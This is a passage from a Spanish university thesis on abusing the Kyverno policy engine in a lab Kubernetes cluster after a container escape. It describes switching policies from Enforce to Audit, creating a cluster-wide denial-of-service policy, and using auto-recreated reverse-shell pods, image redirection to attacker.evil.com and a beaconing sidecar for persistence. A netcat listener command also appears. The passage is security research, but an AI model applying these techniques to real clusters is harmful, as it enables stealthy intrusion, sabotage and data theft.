  \caption{Creación pod con \textit{hostNetwork} igual a true \textit{true}.}
  \label{fig:creacion_pod_hostNetwork}
\end{figure}

Modificando esta política, se puede comprometer un pod vulnerable y obtener los siguientes benificios con objetivos ofensivos:
\begin{itemize}
    \item Escuchar tráfico de red del nodo: si un atacante lanza un pod con \textit{hostNetwork: true} y abre un puerto en escucha (nc -lvp 443), puede observar tráfico que va hacia el nodo, incluyendo otras aplicaciones, kubelet, kube-apiserver o incluso Kyverno.
    \item Posible MITM interno: si se combinan con hostPorts, podría redirigir tráfico del nodo a otro destino o interceptarlo.
    \item Acceso a servicios locales protegidos por localhost: como el API server expuesto internamente o sockets de servicios críticos.
    \item Exfiltración discreta: podría establecer una reverse shell desde una IP que no se ve como pod aislado, sino como si saliera desde el nodo.
\end{itemize}

Todo esto se habría realizado con ruido mínimo, permitiendo a un atacante incluso generar persistencia en el sistema. Además, se ha ejecutado un tipo de riesgo adicional extraído del análisis de STRIDE, Repudiation (repudio). Se ha conseguido modificar exitosamente el funcionamiento de una política de validación de tipo Enforce, al tipo Audit, así que Kyverno no bloquearía el recurso; sólo generaría un log. Esto facilita que, más tarde, el atacante niegue haber saltado la política (“no hubo error, fue permitido”), sin dejar un rastro efectivo y real de lo que ha pasado.

\paragraph{Política de validación adicional: restricción de root \\ \\}

Otro caso muy común de una política de validación es restringir la creación de pods sin la política \textif{runAsNonRoot} dentro del apartado de seguridad (\texitit{securityContext}). Ese ajuste fuerza que todos los contenedores se ejecuten como un usuario no root dentro del pod, previniendo que un contenedor tenga permisos elevados y limitando las posibilidad de escapar del contener a otros pods o al propio nodo.

En este caso, debido a que se ha necesito de la creación de un pod como root para poder escapar al nodo, no se ha aplicado como base esta política de Kyverno. No obstante, debido a la criticidad que supone modificar una política de validación como esta, se va a detallar como se podría aprovechar desde parte de un atacante la existencia de esta política, dejando de lado por este apartado la explotación anterior.

Suponiendo que el clúster cuenta con una política de validación de este estilo, \nameref{lst:require-run-as-nonroot},la cual impide la creación de pods que tengan marcada con el valor c la política \textit{runAsNonRoot}, o directamente no tengan ese atributo en el archivo de creación. Al intentar ejecutar un pod de Nginx sin \textit{runAsNonRoot}, salta un error en la consola ya que no ha pasado la política de validación, avisando de que no se puede ejecutar la creación de este pod, como se ve en la figura \ref{fig:validacion_no_root}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{validacion_no_root.png}
  \caption{Política de validación evita creación de un pod como root.}
  \label{fig:validacion_no_root}
\end{figure}

Una vez descargada siguiendo los pasos detallados previamente, habría que modificar la variable \textit{validationFailureAction} al valor \textit{Audit}, y volver a aplicar la política modificando la política existente previamente en el clúster, \nameref{lst:mod-policy-run-as-root}. Se puede ver como se aplica la política modificada en la figura \ref{fig:validacion_root_modificado}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{validación_root_modificada.png}
  \caption{Aplicar modificación de la política de validación root.}
  \label{fig:validacion_root_modificado}
\end{figure}

Se prueba a crear un pod, forzando que sea ejecutado como root, \nameref{lst:root-pod}, y como se puede ver en la figura \ref{fig:creacion_pod_root}, se ejecuta sin problemas, no mostrando, además, ningún aviso por la consola. El ruido generado en el sistema por esta modificación es prácticamente nulo.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{creacion_pod_root.png}
  \caption{Ejecución de un pod como root.}
  \label{fig:creacion_pod_root}
\end{figure}

\paragraph{Creación de una política de validación desde cero \\ \\}

Debido al control total que se tiene sobre Kyverno, no solo es posible modificar las políticas ya existentes, sino que también es posible crear nuevas políticas. Con un enfoque ofensivo se pueden generar diversas políticas de validación, pero en este caso se ha optado por una política de validación que actuará como un \textit{kill switch} silencioso. Esta política de validación bloqueará la creación de absolutamente cualquier objeto del clúster, sin mostrar de manera obvia y directa el motivo de la denegación. Además, esto congela todos los despliegues, reinicios y escalados, generando una disrupción enorme.

Esta política, \nameref{lst:block-all-pods}, funciona de la siguiente manera:
\begin{itemize}
    \item Solo acepta imágenes con nombre "nunca-va-a-coincidir/esta/no/existe:*", que obviamente no se usa nunca.
    \item Todos los pods fallan en validación y Kyverno devuelve "Acceso denegado." genérico. No da información más allá del mensaje, retrasando su posible detección por varias horas.
    \item Parece una política de seguridad seria, pero no tiene bypass real.
\end{itemize}

Esta política nueva se crea en un fichero en la máquina del atacante, por lo que no se deja rastro en la máquina del clúster. Una vez aplicada, se verifica como efectivamente no deja crear ningún pod y devuelve el mensaje genérico de "Acceso Denegado", según la figura \ref{fig:validacion_bloqueo_total}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{validacion_bloqueo_total.png}
  \caption{Ejecución política validación bloqueo total.}
  \label{fig:validacion_bloqueo_total}
\end{figure}

A nivel ofensivo, esta política generará las siguientes ventajas:
\begin{itemize}
    \item Una denegación de servicio total en nuevos despliegues, aplicada desde dentro.
    \item Causa pánico: pods no se escalan, cronjobs fallan, CI/CD se frena.
    \item Si se ejecuta en un momento adecuado, puede generar caídas que duren hasta más de un día.
    \item Puede simular un fallo en Kyverno o una mala configuración interna, retrasando la detección de un compromiso de la infraestructura, retrasando el poder echar al atacante de la red interna.
\end{itemize}

Además, con esta política se ha conseguido el apartado Denial of Service (denegación de servicio) de STRIDE.

\subsection{Política de generación}
Las políticas de generación de Kyverno permiten que, al ocurrir ciertos eventos (como la creación de un recurso), se genere automáticamente otro recurso asociado. Esto se usa típicamente para garantizar configuraciones por defecto en nuevos Namespaces u objetos relacionados. Un ejemplo típico es la política \textit{add-networkpolicy}, que al crear un Namespace nuevo genera dentro de él una NetworkPolicy de denegación por defecto (default deny), reforzando el aislamiento de red. La lógica es que Kubernetes por defecto no restringe el tráfico entre pods, y conviene añadir una NetworkPolicy que deniegue todo, a menos que se especifiquen reglas más abiertas. 

La política creada para este caso, \nameref{lst:generate-network-policy}, funciona de la siguiente manera: cada vez que se crea un nuevo Namespace, Kyverno (mediante esta regla) generará automáticamente un objeto NetworkPolicy llamado default-deny dentro de ese namespace. La NetworkPolicy en cuestión no contiene ninguna regla de allow (ingress y egress vacíos), lo que efectivamente produce un comportamiento de “denegar todo” en ese namespace. El atributo \textit{synchronize: true} indica que Kyverno continuará monitorizando la coherencia de este recurso: si alguien lo borra o modifica, el controlador de Kyverno lo recreará o revertirá al estado definido por la política.

En este caso, y como tenemos permisos sobre Kyverno, se modificará la regla de la NetworkPolicy generada para que, en vez de denegar todo el tráfico, permita todo el tráfico interno, facilitando así el movimiento lateral por la red del clúster a posibles atacantes. Tras editar la política siguiendo el mismo proceso que el detallado en la política de validación (descarga del YAML, editar los valores concreto, y aplicando de nuevo la política con el mismo nombre), donde se ponen los campos ingress y egress con un array vacío, lo que permite todo el trafico, se vuelve a aplicar la política como se puede ver en la figura \ref{fig:generate_network_modificada}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{generate_network_modificada.png}
  \caption{Aplicación política de generación modificada.}
  \label{fig:generate_network_modificada}
\end{figure}

Como no se tienen permisos de creación de namespaces no es posible llegar a probar esta política de generación, pero un atacante tampoco necesitaría llegar a probarla. Podría esperar a ser necesario utilizarla, cuando se creen nuevo namespaces, y ya poder atacarlo al permitir todo el tráfico tanto entrante como saliente de ese namespace.

\paragraph{Creación de una política de generación desde cero \\ \\}
Una de las formas más eficaces de garantizar persistencia dentro de un clúster Kubernetes comprometido es aprovechar las políticas de tipo generate de Kyverno para forzar la regeneración automática de recursos maliciosos. La siguiente política, \nameref{lst:generate-evil-pod}, ilustra este enfoque ofensivo: su función es crear automáticamente un pod con una carga maliciosa dentro de un namespace concreto (por ejemplo, dvwa), y asegurar que este pod sea recreado automáticamente si es eliminado, gracias al uso del atributo \textit{synchronize: true}. Esta política puede quedar activa de forma pasiva, ejecutándose cada vez que Kyverno detecta la existencia del namespace objetivo, sin necesidad de interacción adicional por parte del atacante.

En la figura \ref{fig:generate_evil_pod} se puede ver como se aplica esta regla, lo que desencandenará la creación de este pod mencionado.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{generate_evil_pod.png}
  \caption{Generación de Evil Pod.}
  \label{fig:generate_evil_pod}
\end{figure}

Tras un par de minutos de aplicar esta política, y teniendo un netcat abierto en la máquina Kali en el puerto 5555, se puede ver como se recibe la consola y se tiene acceso como root a este nuevo pod, como se puede ver en la figura \ref{fig:root_evil_pod}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{root_evil_pod.png}
  \caption{Shell inversa Evil Pod.}
  \label{fig:root_evil_pod}
\end{figure}

Desde un punto de vista ofensivo, esta estrategia proporciona un mecanismo de persistencia altamente resistente. A diferencia de otras técnicas que requieren ejecutar scripts o mantener shells vivas, el atacante aquí delegaría la responsabilidad de su persistencia al propio controlador de políticas del sistema. De este modo, si el equipo de defensa identifica el pod malicioso y lo elimina manualmente, Kyverno, en cumplimiento de la política introducida, lo volverá a crear casi inmediatamente. Esto puede generar confusión en el equipo de seguridad, haciéndoles pensar que existe un fallo en el plano de control o una automatización legítima que están pasando por alto.

Además, esta técnica permite al atacante reducir su huella de actividad directa. Una vez desplegada la política, no es necesario emitir más comandos desde el pod comprometido ni desde fuera del clúster. Toda la lógica de persistencia queda implantada en un recurso nativo de Kubernetes (ClusterPolicy) que actúa como "agente automático" del atacante. Este nivel de automatización resulta especialmente útil cuando el atacante sabe que va a perder acceso activo al entorno o que los defensores van a tomar acciones reactivas.

Esta política puede ser efectiva incluso si el atacante no puede crear nuevos namespaces (por restricciones RBAC), basta con que conozca uno donde tiene presencia inicial para poder aplicar la política y mantener su carga activa. Esto permite una persistencia silenciosa  y oculta bajo una capa de automatización que podría hacerse pasar por legítima, lo que convierte a este tipo de abuso de políticas generate en una herramienta especialmente peligrosa para comprometer la continuidad operativa del clúster.


\subsection{Política de mutación}
LLas políticas de mutación en Kyverno se utilizan habitualmente para asegurar que ciertos valores estén definidos o corregidos en los manifiestos de los recursos antes de que se apliquen al clúster, ya que en caso de no estarlos, modifica los YAML. Una de las mutaciones más comunes es imponer \textit{imagePullPolicy: Always} en todos los contenedores, lo cual obliga a Kubernetes a recuperar la última versión de la imagen en cada despliegue, independientemente de si ya está presente en el nodo. Esto es útil para garantizar que los cambios en las imágenes con etiquetas flotantes como :latest se apliquen sin necesidad de actualizar el hash.

Sin embargo, desde una perspectiva ofensiva, esta política puede ser manipulada o incluso creada por un atacante para favorecer la carga continua de imágenes maliciosas desde un repositorio controlado. Por ejemplo, si el atacante logra sustituir una imagen legítima (nginx:latest) por una versión idéntica visualmente pero con código inyectado (backdoors, shells inversas, keyloggers...), la política garantizaría que se descargue siempre la imagen más reciente, incluso si los defensores la borran localmente. Esto convierte al sistema en un mecanismo de reimplantación persistente.

Además, el atacante podría combinar esta política con otras técnicas, como la modificación de políticas generate o validate, para evitar que se detecten anomalías en las etiquetas o rutas de la imagen. De esta forma, el propio sistema de políticas de seguridad se convierte en cómplice de la persistencia del atacante, reduciendo la necesidad de interacción directa con el clúster y evitando los sistemas de monitoreo que detectan comandos o acciones manuales.

En entornos corporativos con acceso a múltiples registros de imágenes (internos, externos o mixtos), este tipo de mutación puede pasar desapercibida, especialmente si el atacante mantiene el nombre y etiqueta visibles sin alteraciones, apuntando a un registro DNS alternativo o una IP encubierta. Por tanto, aunque en apariencia esta política mejora la seguridad y coherencia de las imágenes desplegadas, en manos de un actor malicioso puede convertirse en una herramienta de persistencia encubierta altamente eficaz.

La política creada para este caso, la cuál ya estaba presente en el sistema, se puede ver en \nameref{lst:imagepullpolicy}, que realiza lo comentado anteriormente: impone \textit{imagePullPolicy: Always}. El proceso de descarga y modificación del YAML es identico que con las anteriores políticas.

La política modificada, disponible en \nameref{lst:mod-imagepullpolicy} para darle un enfoque ofensivo, emplea la funcionalidad foreach de Kyverno, que permite iterar sobre todos los contenedores definidos en un manifiesto de pod, y reescribe el campo image añadiendo como prefijo un dominio arbitrario (atacante.evil.com) especificado por el atacante. Al hacerlo, cualquier imagen original como nginx, alpine, o incluso imágenes empresariales internas, se transforma en attacker.evil.com/nginx o attacker.evil.com/alpine. Esto, como se ha explicado previamente, generaría un comportamiento controlado por el atacante, ya que cada vez que se lanza un pod, el clúster se conecta al servidor del atacante para recuperar una imagen que, aunque mantenga el mismo nombre visible, puede contener cargas maliciosas, puertas traseras, o comportamientos alterados respecto a la versión oficial.


\paragraph{Creación de una política de mutación desde cero \\ \\}

La capacidad de mutación automática ofrece al atacante otra poderosa vía: inyectar componentes maliciosos en las cargas del clúster de forma transparente. Un ejemplo extremo es introducir un sidecar en cada Pod que se cree, de modo que el atacante tenga siempre presencia en cualquier aplicación desplegada. Un sidecar en Kubernetes es un contenedor adicional que se ejecuta junto al contenedor principal dentro del mismo pod, compartiendo el mismo espacio de red, almacenamiento y ciclo de vida. No es el contenedor "aplicativo" principal, sino un contenedor auxiliar que proporciona funcionalidades complementarias. Kyverno facilita la creación de un sidecar mediante reglas de mutación que agregan entradas en el campo spec.containers de los Pods.

Consideremos que el atacante despliega la siguiente política: \nameref{lst:inject-backdoor-sidecar}. En este YAML, la política agrega un nuevo contenedor llamado attacker-sidecar a cada Pod. Se usa una imagen de Alpine Linux y, en este ejemplo, se ejecuta un bucle infinito que regularmente hace beaconing (comunicación saliente) a un servidor controlado por el atacante, informando la identidad del pod comprometido. En un escenario real, el atacante podría utilizar este sidecar para múltiples fines: instalar un minero de criptomonedas que abuse de los recursos del clúster, ejecutar un sniffer para capturar tráfico interno, o abrir una puerta trasera (por ejemplo, escuchando en un puerto para conexiones entrantes del atacante).

Esta maniobra es muy grave, ya que compromete sistemáticamente la integridad de cada despliegue en el clúster. Al inyectar el sidecar malicioso automáticamente, el atacante consigue que cada nueva aplicación venga acompañada de su propio contenedor malicioso sin que los desarrolladores se percaten. Desde el punto de vista ofensivo, esto ofrece persistencia y ubicuidad: aunque se elimine un pod comprometido, cualquier pod nuevo volverá a tener el componente atacante. Adicionalmente, la naturaleza “invisible” (es una mutación en el admission controller) dificulta la detección inicial; para un usuario, el Pod aparece con un contenedor extra que podría confundirse con algún servicio auxiliar legítimo. La administración del clúster queda profundamente comprometida, pues el atacante, a través del sidecar, podría robar datos de las aplicaciones, moverse lateralmente entre pods, o utilizar recursos computacionales a su antojo. En resumen, una funcionalidad pensada para inyectar componentes de soporte (por ejemplo sidecars de logging, proxies de malla de servicios, etc.) es usada de forma ofensiva aquí para inyectar malware en las cargas de forma automatizada.

% Nuevo capítulo
\chapter{Evaluación de los ataques y mitigaciones}\label{chap:resultados}
\label{sec:resulObtenidos}


En esta sección se describe los resultados obtenidos en el TFG, analizando la vulnerabilidad explotada para acceder al nodo y todas las políticas de Kyverno modificadas y creadas desde cero, junto a los riesgos alcanzados extraídos del análisis de STRIDE. Además, se incluye un apartado donde se detalla qué medidas se pueden llevar a cabo para detectar estas acciones y cómo protegerse ante ellas.

\section{Evaluación de resultados}
\subsection{Acceso mediante RCE y escape al nodo}   
En primer lugar, se comprobó que una vulnerabilidad de ejecución remota de código (RCE) en una aplicación expuesta (en este caso, DVWA) permitió obtener una base inicial dentro del clúster. A través de dicha vulnerabilidad, se logró ejecutar comandos arbitrarios en el contenedor comprometido, lo que concedió una puerta de entrada al sistema mediante un shell inversa. Este acceso inicial, aunque limitado al entorno aislado del contenedor, sirvió para escalar privilegios mediante técnicas de escape. 

La estrategia de escalada consistió en explotar una configuración insegura del clúster: el uso de volúmenes hostPath sin restricciones. Con la shell inversa obtenida del contenedor vulnerable, se pudo crear un Pod malicioso con privilegios elevados (ejecutándose como usuario root y con privileged: true), configurado para montar el directorio raíz del nodo anfitrión (/) dentro del propio contenedor. Esta acción aprovechó la ausencia de políticas preventivas y permitió romper el aislamiento entre el contenedor y el nodo. En otras palabras, el atacante consiguió montar el sistema de archivos del nodo dentro del pod, obteniendo acceso directo a todos los ficheros del host. 

Como resultado de este escape, se alcanzó un control completo del nodo comprometido. Desde allí, fue posible leer y extraer información crítica del sistema. Por ejemplo, se obtuvo acceso a los tokens de los Service Accounts usados por otros pods. En particular, se localizó el token asociado al Service Account de Kyverno navegando por los directorios montados (los tokens de autenticación de Kubernetes se almacenan en rutas como /var/lib/kubelet/pods/.../kube-api-access/... dentro del nodo). La obtención de este token específico confirmó que el atacante había conseguido privilegios dentro del espacio de nombres de Kyverno y, de hecho, control sobre los componentes de seguridad del clúster. En síntesis, la cadena de ataque (RCE en la aplicación, creación de pod privilegiado con hostPath y acceso a ficheros sensibles del nodo) derivó en el compromiso total del clúster, sentando las bases para manipular las políticas de seguridad de Kyverno a conveniencia del atacante.
\subsection{Políticas de validación}
El entorno contaba con varias políticas de validación de Kyverno diseñadas para reforzar la seguridad del clúster. Estas políticas imponían restricciones explícitas sobre la configuración de los pods con el fin de evitar escenarios de riesgo. En concreto, se utilizó una política de bloqueo estricto de pods (tipo “deny-all”), una polítics de restricción de opciones peligrosas como  hostNetwork, y una política que exigía configuraciones seguras en el securityContext de cada pod (por ejemplo, ejecutar como usuario no root). A continuación se analiza el objetivo de cada política, su comportamiento durante las pruebas, y cómo pudieron ser modificadas o evadidas tras la intrusión, así como los resultados observados en cada caso:

\begin{itemize}
    \item Política “deny-all” (bloqueo de todos los pods): Esta regla de validación, denominada en el entorno block-all-pods, tenía como objetivo impedir la creación de cualquier pod nuevo que no cumpliera condiciones muy específicas (en la práctica, una condición imposible de satisfacer, de modo que ningún pod pasaría la validación). Su propósito era generar una denegación de servicio (DoS) total por parte del atacante, generando una disrupción enorme. Esto sirvió de ejemplo de como un atacante también puede aprovechar y crear políticas de cero de Kyverno para perjudicar al sistema de manera devastadora.
    \item Política de control de hostNetwork: una política de validación presente impedía el uso de la opción hostNetwork: true en los pods. Esta configuración, cuando está habilitada, hace que el pod comparta la pila de red del nodo físico, otorgándole acceso directo a la red del host (bypaseando el aislamiento de red normal de Kubernetes). Inicialmente, la política, llamada disallow-host-network, estaba en modo Enforce, por lo que bloqueaba cualquier intento de crear pods con hostNetwork. De hecho, antes de la intrusión completa, se verificó su funcionamiento: al intentar aplicar un manifiesto de pod (por ejemplo, un Nginx) con hostNetwork: true, Kyverno denegó la petición con un mensaje de error, impidiendo el despliegue. Esta protección resulta muy útil para evitar que aplicaciones comprometidas puedan espiar o interferir en el tráfico del nodo. No obstante, tras obtener el control, el atacante procedió a alterar la configuración de la política, cambiando su acción a Audit. Con solo ese ajuste y sin modificar el resto de la regla, la política dejó de bloquear la creación de pods y pasó a solo registrar advertencias en segundo plano. El cambio tuvo consecuencias inmediatas: se pudo lanzar un nuevo pod con hostNetwork: true sin oposición, algo que previamente estaba prohibido. Gracias a ello, el atacante consiguió que su contenedor malicioso estuviera conectado directamente a la red del host, lo que abrió la puerta a múltiples acciones ofensivas antes no permitidas. Entre ellas cabe destacar la capacidad de escuchar el tráfico de red del nodo (por ejemplo, abriendo un puerto en modo escucha mediante netcat y capturando paquetes destinados al host), realizar movimientos laterales o exploración de la red interna (port scanning de servicios solo accesibles desde la red del nodo), e incluso comunicarse con componentes como el API Server de Kubernetes simulando ser tráfico legítimo del propio nodo. Además, con hostNetwork activo, cualquier conexión saliente desde el pod malicioso parecería originarse desde la IP del nodo, dificultando su detección por sistemas de monitorización que normalmente distinguirían pods individuales. Es importante resaltar que este cambio de Enforce a Audit no generó alertas visibles para los administradores: el clúster continuó funcionando con normalidad aparente y solo un examen detallado de los logs de Kyverno revelaría que se estaba permitiendo la violación de la política. Esto subraya cuán sutil y peligroso resulta que un atacante modifique una política de validación: la superficie de ataque de la infraestructura se amplía drásticamente sin señales claras, ya que las protecciones siguen existiendo pero “silenciadas”.
    \item Política de exigencia de securityContext (ejecución como no-root): Por último, se planteó un escenario con una política de validación destinada a asegurar que ningún contenedor se ejecutara con privilegios de root. Esto a priorio no permitiría ejecutar el RCE, pero debido a la criticidad de esta política de validación, se decidió incluir este supuesto. Esta regla, habitualmente implementada mediante la opción runAsNonRoot: true en el contexto de seguridad, obligaba a que todos los pods tuviesen un usuario no privilegiado. Su objetivo es prevenir una amplia gama de vectores de ataque, desde la escalada de privilegios dentro del contenedor hasta dificultar los escapes al host, ya que un proceso no-root tiene menos capacidades para aprovechar vulnerabilidades del sistema. En la práctica, en nuestro entorno, esta política estaba configurada en modo Enforce inicialmente, de modo que habría bloqueado cualquier manifestación de pod que careciera del campo securityContext adecuado. Avanzando con el ataque, se editó la configuración de Kyverno para que la regla pasara a modo Audit en lugar de Enforce. Tras efectuar este cambio, Kyverno dejó de impedir la ejecución de contenedores como root, permitiendo la creación exitosa del pod malicioso con usuario administrador. El efecto de cambiar la política a Audit fue nuevamente silencioso: ningún mecanismo detuvo la infracción, limitándose Kyverno a registrar un evento de auditoría que fácilmente pasa inadvertido si no se monitorea activamente. En términos de resultados, la manipulación de esta política permitió anular una medida crítica de aislamiento de privilegios, demostrando que incluso las mejores prácticas (como obligar a usar usuarios no-root) pueden ser inutilizadas si un atacante logra control de las políticas. Así, se consolidó la idea de que la robustez de las políticas de validación depende no solo de su correcta implementación, sino de la capacidad para protegerlas frente a cambios no autorizados.
\end{itemize}
Destaca también el hecho de que a la hora de modificar las políticas, es posible sobre escribirlas si se utiliza el mismo nombre en el fichero de YAML. Esto permitiría no modificar el fichero original que creó esta regla, lo cual no generaría ruido, y haría aún más difícil la detección de una modificación indebida de una política.

En conjunto, la evaluación de estas políticas de validación reveló un patrón consistente: todas cumplían su función protectora hasta que el atacante obtuvo privilegios suficientes para manipularlas. Una vez con control, pudo convertir políticas estrictas en permisivas (Enforce -> Audit) o directamente deshabilitarlas, sin provocar disrupción notable en el servicio pero eliminando capas clave de seguridad. Esto resalta la necesidad de combinar la aplicación de políticas con mecanismos de detección y alerta que avisen de cambios en las mismas, así como mantener una postura defensiva en profundidad que no dependa únicamente de la integridad de un solo componente de seguridad.
\subsection{Políticas de generación}
Las políticas de generación de Kyverno normalmente se emplean para automatizar la creación de recursos complementarios cuando ocurre cierto evento, como la creación de un nuevo Namespace o la detección de un objeto específico. En un contexto defensivo típico, estas políticas pueden, por ejemplo, generar una NetworkPolicy por defecto para aislar la red de nuevos Namespaces. Sin embargo, la evaluación realizada exploró el papel que estas mismas políticas pueden jugar en un entorno ofensivo cuando son modificadas o creadas con intención maliciosa. 

En primer lugar, se consideró la modificación de una política de generación existente relacionada con la red. El clúster disponía originalmente de una política pensada para mejorar la seguridad entre namespaces: al crearse un nuevo espacio de nombres, Kyverno generaría automáticamente en él una NetworkPolicy de denegación por defecto (política de red “deny-all”) con objeto de bloquear todo el tráfico entrante y saliente hasta que se definieran reglas más específicas. Esta es una práctica recomendada para evitar que nuevos entornos queden por defecto sin restricciones de red. El atacante, al tener acceso a las políticas, podría haber invertido este comportamiento con facilidad. Una táctica posible identificada sería alterar la política de generación para que, en lugar de crear una NetworkPolicy restrictiva, generase una política totalmente permisiva (es decir, que permita todo el tráfico) en cada nuevo Namespace. De ese modo, cualquier namespace que se añadiera en el futuro nacería automáticamente expuesto, sin que los administradores lo notasen de inmediato, confiando erróneamente en que la automatización sigue aplicando aislamiento. En el caso de estudio, por limitaciones de permisos, no se llegó a desplegar un nuevo Namespace para activar esta situación; no obstante, el mero hecho de mantener una política maliciosa latente supone un riesgo. Un atacante paciente no necesitaría activar nada más: podría dejar plantada la política modificada y esperar. Cuando eventualmente los operadores legítimos creen un nuevo namespace (por necesidades de la plataforma), la política generará una configuración insegura en segundo plano, socavando la seguridad sin intervención activa del atacante en ese momento. Este escenario ilustra las ventajas operativas que obtiene un atacante: puede preparar “trampas” automatizadas que se activarán en el futuro, ampliando el impacto de la intrusión más allá del momento inmediato. 

Aún más revelador fue el desarrollo de una política de generación completamente nueva, concebida explícitamente para mantener persistencia del atacante en el sistema. Se diseñó y aplicó una política (bautizada generate-evil-pod) cuya función era crear un pod malicioso de forma automática dentro de un Namespace controlado (en este caso, el Namespace de la aplicación vulnerada, dvwa). Esta política abusaba de la capacidad de Kyverno para vigilar la presencia de ciertos objetos y garantizar su existencia. En concreto, generate-evil-pod estaba configurada con synchronize: true, lo que significa que Kyverno no solo genera el pod especificado, sino que vigila constantemente si el pod es eliminado por un tercero, recreándolo automáticamente. Durante la evaluación, tras aplicar esta política, se pudo comprobar su impacto: al cabo de unos instantes de instalada, Kyverno creó el pod malicioso indicado sin necesidad de ninguna acción adicional del atacante. Para evidenciar el alcance ofensivo, dicho pod estaba programado para establecer una shell inversa hacia la máquina del atacante. Se consiguió la conexión inversa tal como estaba previsto, proporcionando nuevamente acceso remoto al atacante con privilegios de root en ese contenedor. 

Los resultados de este experimento fueron contundentes. Desde el punto de vista ofensivo, una política de generación utilizada de esta forma ofrece un mecanismo de persistencia altamente resistente dentro del clúster. A diferencia de otras técnicas de persistencia que podrían requerir que el atacante mantenga una sesión interactiva o reintroduzca manualmente payloads maliciosos, aquí toda la lógica de supervivencia queda delegada al propio plano de control de Kubernetes (a través de Kyverno). En la práctica, esto significa que aunque el equipo de defensa elimine el pod malicioso una y otra vez, el sistema mismo lo restaurará sin que el atacante tenga que intervenir. Esta situación puede generar confusión entre los administradores: podrían pensar que la reaparición del pod se debe a algún proceso legítimo de autoescalado o autoreparación, especialmente si el nombre o las características del pod no son obviamente sospechosos. Además, al no requerir actividad constante por parte del atacante, disminuye la huella detectable de la intrusión.

Por supuesto, esta abusiva utilización de las políticas de generación conlleva riesgos serios. En manos de un actor malicioso, Kyverno pasa de ser una herramienta protectora a un “agente interno” (también conocido como insider) del atacante. La persistencia encubierta que brinda es extremadamente peligrosa: incluso si se revocan accesos comprometidos o se actualizan componentes, mientras la política ofensiva siga instalada, el clúster tenderá a retornar al estado comprometido. Nuestra evaluación enfatiza ese riesgo, demostrando que es imprescindible vigilar y validar no solo las configuraciones evidentes (pods, deployments, etc.), sino también las políticas de más alto nivel que gobiernan el comportamiento del orquestador.
\subsection{Políticas de mutación}                                                                           Las políticas de mutación de Kyverno permiten modificar o añadir campos en los recursos justo antes de que estos se creen o actualicen en el clúster. Su rol habitual en seguridad es garantizar que ciertos parámetros deseables siempre estén presentes o ajustados a un valor seguro. Por ejemplo, es común emplear una política de mutación para establecer la opción imagePullPolicy: Always en todos los contenedores desplegados. Esto obliga a Kubernetes a comprobar y descargar siempre la versión más reciente de la imagen de contenedor, aunque ya exista una copia local, asegurando que no se utilicen imágenes obsoletas. En un contexto defensivo, dicha mutación es beneficiosa para mantener consistencia y facilitar actualizaciones. 

No obstante, desde una perspectiva ofensiva, se ha identificado que incluso políticas de mutación con buenas intenciones pueden ser aprovechadas o creadas ex profeso para favorecer al atacante. Siguiendo el ejemplo anterior, la misma regla de imagePullPolicy: Always puede volverse un arma de doble filo. La modificación ofensiva consistió en alterar la política para que, además de imponer Always, también redirigiera las imágenes hacia un registro externo controlado por el atacante. De este modo, cualquier despliegue realizado en el clúster extraía su imagen desde un servidor remoto comprometido, lo que facilitaba la ejecución de cargas maliciosas sin levantar sospechas a corto plazo.

La otra política de mutación, esta vez creada desde 0 en el nodo, inject-backdoor-sidecar, tenía configurada la acción para añadir automáticamente un contenedor adicional a cada Pod admitido. Su finalidad declarada era dotar de observabilidad de red a las cargas de trabajo; sin embargo, el sidecar inyectado, bajo una imagen aparentemente inocua, incluía un proceso que establecía una conexión saliente persistente a una dirección externa, convirtiéndose en un canal encubierto de exfiltración.

